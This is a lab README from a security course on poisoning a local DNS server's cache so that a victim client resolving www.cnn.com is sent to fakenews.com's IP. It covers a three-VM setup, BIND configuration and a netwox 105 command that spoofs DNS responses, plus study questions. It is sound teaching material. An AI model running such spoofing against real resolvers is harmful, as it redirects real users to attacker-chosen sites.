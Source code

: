 ## Local DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: Victim (DNS) Client, Victim (DNS) Server, Attacker.

The following is the IP addresses and MAC addresses for the VMs used in this README.

| VM  |  IP Address   |    Role       |
|-----|---------------|---------------|
| VM1 | 172.16.77.128 | victim client |
| VM2 | 172.16.77.129 | victim server |
| VM3 | 172.16.77.130 |   attacker    |

### Steps

1. On DNS Server machine: start the DNS Server. We will use BIND software. (BIND: Berkeley Internet Name Domain) 

```console
# sudo service bind9 start (If it's already running, then # sudo service bind9 restart)
```

2. On DNS Server: remove existing cache:

```console
# sudo rndc flush
```

3. On Victim Client, configure DNS server information, i.e., let the client know the IP address of the DNS server.

3.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your Victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

3.2. run the following command so the above change will take effect:

```console
# sudo resolvconf -u
```

4. On Attacker VM, run

```console
# sudo netwox 105 --hostname "www.cnn.com" --hostnameip FAKENEWS.com_IP --authns "ns1.fastly.net" --authnsip ATTACKER_IP --filter "src host DNS_SERVER_IP" --ttl 19000 --spoofip raw
```

FAKENEWS.com IP address (as of today, 03/17/2022): 188.126.71.216 (you can use ping command to confirm it)

Explanation: '--spoofip raw' means to spoof at IP4/IP6 level, as opposed to spoof at the data link layer. In other words, spoof IP addresses, instead of spoof MAC addresses.

Question: why it's "src host DNS_SERVER_IP", instead of "src host DNS_CLIENT_IP"?

Question: does the ttl here have the same meaning as the ttl in IP headers?

5. on Victim Client, send a query.

```console
# dig www.cnn.com 
```

Note: if your dig command shows www.cnn.com is mapped to 188.126.71.216, then it means the attack is successful; if it's not mapped to this IP address, it means you're not on the right track.

6. Stop the attack - press control-c on the Attacker VM's terminal. On Victim Client, open wireshark and repeat step 5 (i.e. run the dig command again), from the packets captured in wireshark, confirm the attack is still successful, and the forged response is indeed from the Victim DNS server.

7. You are recommended to remove the line you added in step 3, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.
